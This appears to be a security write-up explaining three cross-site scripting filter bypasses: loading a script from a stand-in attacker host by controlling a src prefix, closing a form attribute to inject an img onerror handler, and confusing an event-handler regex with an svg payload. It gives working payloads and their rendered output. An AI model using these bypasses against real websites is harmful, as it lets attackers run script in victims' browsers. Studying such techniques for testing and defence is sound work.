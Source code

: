 Bypass as part of a URL
------------------------

This case was really strange. The webpage takes a parameter called `protocol`. If you give injected as value you get a response like this one:  

```html
--- snip ---
<base href="injected://victim:443/">
<link rel="stylesheet" type="text/css" href="injected://victim:443/css/lq/chromestyle.css" />
<script type="text/javascript" src="injected://victim:443/css/js/jquery.js"></script>
--- snip ---
```

Trying to close any of those tag to inject a new `script` will be rejected. As we have control over the beginning of the `src` attribute of a `script` tag we can simply use the payload `//attacker/payload.js?` The rest will be part of the query string :)

Bypass with unclosed tag
------------------------

This is I guess a typical case of bypass. Injection occurs in the `action` attribute of a form. We can close the attribute with double quote and even close the form tag but then we can't inject everything that we want.  

`<script` is blocked as well as everything that seems to match a regular expression like `<\w+ on.\*=.\*>` (for example `<inject on=>` is blocked).  

Fortunately we don't necessarily need to close our tag. Here, because we are in the `action` attribute, the `>` characters appears next.  

My final payload was:  

```html
"></form><img src=x onerror="prompt`XSS`
```

which renders in the webpage to  

```html
<form action="/index/login?burl="></form><img src=x onerror="prompt`XSS`" method="post"  onsubmit="return checkNull()" id="loginform" name="loginform">
```

Confuse regexes
---------------

Injection occurs inside a link, this is very common:  

```html
<a href="index.php?p=news_list&lanmu=<injected>">
```

Characters are reflected but script tags and common payloads like `<svg onload=whatever>` are filtered... The previous trick doesn't apply here.  

Is the website using a regular expression to check for tags with a `on*` events ? It turns out we can confuse the filter with the following payload that is successfully reflected:  

```html
<svg x='>' onload=injected>
```
